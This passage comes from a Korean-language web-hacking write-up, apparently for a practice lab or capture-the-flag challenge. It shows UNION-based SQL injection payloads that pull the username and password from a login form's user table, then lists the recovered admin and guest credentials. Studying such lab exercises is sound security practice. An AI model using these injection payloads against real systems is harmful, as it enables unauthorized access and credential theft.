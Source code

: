`password`는 “password”

|

```sql
' union select 1,(select username from user limit 1,1),3 -- 1
```

![1.1 SQL Injection - Login 8](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_8.png)

두 번째 행의 `username`은 **“admin”**

|

```sql
' union select 1,(select password from user limit 1,1),3 -- 1
```

![1.1 SQL Injection - Login 9](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_9.png)

`password`는 **“strong_admin_password_it_cant_be_leak”**

|

정리하면,

| id | username | password |
|:---|:---------|:---------|
| 1 | guest | password |
| 2 | admin | strong_admin_password_it_cant_be_leak |

user 테이블의 구조는 위와 같은 형태임을 알 수 있음
